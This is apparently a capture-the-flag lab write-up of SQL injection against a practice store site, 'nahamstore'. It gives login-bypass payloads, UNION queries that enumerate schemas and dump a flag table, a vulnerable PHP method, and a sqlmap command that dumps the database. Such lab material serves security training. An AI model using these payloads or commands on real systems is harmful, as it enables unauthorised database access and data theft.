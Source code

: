 ## Union Based SQLi:
+ In page /product, we have the potential parameter "id" --> we test with some payload: 
```
' OR 1=1 --
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
```

![](<Images/Pasted image 20250210175101.png>)

--> We can manipulate `id` to make the vulnerability SQLi and database which website'using is `MYSQL` .
+ The first we should define the numbers of columns. We use `UNION`statement: `UNION SELECT 1,2,3,...`

![](<Images/Pasted image 20250210180551.png>)

 + Next, we change the value of param "id" to find another tables. We can use `id=3`

![](<Images/Pasted image 20250210181005.png>)

+ Using `database()` to find the database of page `product` . We test `database()` for every columns until we've found the database.

![](<Images/Pasted image 20250210181313.png>)

 --> The database is "nahamstore".
 
+ We retrieve the names of all tables within a schema (database) "nahamstore" on the server:
```
3 UNION SELECT 1,2,3,GROUP_CONCAT(table_name),5 FROM information_schema.tables WHERE table_schema='nahamstore'
```
![](<Images/Pasted image 20250210181930.png>)
 --> 2 tables "product" and "sqli_one".
 
+ We retrieve the names of all columns in a table "sqli_one":
```
3 UNION SELECT 1,2,3,GROUP_CONCAT(column_name),5 FROM information_schema.columns WHERE table_name='sqli_one'
```

![](<Images/Pasted image 20250210182505.png>)
 --> 2 columns are "flag" and "id".

+ Finally, we retrieve data `flag` and `id` from a table "sqli_one":
```
3 UNION SELECT 1,2,3,GROUP_CONCAT(flag, ':' , id SEPARATOR '<br>'),5 FROM sqli_one
```

![](<Images/Pasted image 20250210183130.png>)

------------------------------------------------------------------

## Blind SQLi:

+ When we RCE and access the initial server, we can review source code and find the vulnerable SQLi in /html/models/Order.php :
```PHP
/**
     * @param $id
     * @return false|Order
     */
    public static function getInj($id){
        $resp = false;
        $d = Db::sqli2()->prepare('select * from `order` where id = '.$id);
        $d->execute();
        if( $d->rowCount() > 0 ){
            $resp = new Order( $d->fetch() );
        }
        return $resp;
    }

```

--> This method is **vulnerable to SQL injection** as it directly concatenates the `$id` parameter into the SQL query. From that we can retrieve the information in database table "sqli2".
+ Mitigation: Remove or refactor the `getInj()` method to use prepared statements.

+ Back to the website `http://nahamstore.thm/`  to test the vulnerable SQLi.
+ After we find the method has the vuln, we access deeper source code of web page. We've accessed the source code in `Website.php`:
```bash
public static function returns(){
        $error = array();
        if( isset($_POST["order_number"],$_POST["return_reason"],$_POST["return_info"]) ){
            if( !Order::getInj($_POST["order_number"]) ){
                $error[] = 'Invalid Order Number';
            }
```

--> We've found the function `return()` use the vulnerable method `getInj()`for the parameter "order_number" to check available data from the database.
+ In this case, the way to exploit the blind SQL easiest that is using tool "SqlMap".
+ First we use BurpSuite to capture the request and send it to "Repeater". We save it into file as name "request.txt".
+ Next we run `SqlMap` with command:
```bash
$ python3 sqlmap.py -r ~/request.txt --dbms=mysql -p order_number --level=4 --risk=3 --dump --threads=10
# -r: uses the intercepted request you saved earlier
# --dbms: tells SQLMap what type of database management system it is
# -p : Testable parameter(s)
# --level=LEVEL       Level of tests to perform (1-5, default 1)
# --risk=RISK         Risk of tests to perform (1-3, default 1)
# --threads
```

![](<Images/Screenshot from 2025-01-20 16-35-14.png>)

+ Waiting for tool testing and we've got the payload working

![](<Images/Screenshot from 2025-01-20 16-38-28 1.png>)

--> We are able to exploit `Boolean-based` with `OR 1=1` or `Time-based` with `OR SLEEP(5)`.
+ When testing done, we've received the result:

![](<Images/Screenshot from 2025-01-20 16-38-57.png>)

![](<Images/Screenshot from 2025-01-20 16-39-08.png>)

![](<Images/Screenshot from 2025-01-20 16-39-20.png>)

------------------------------------------------------------------


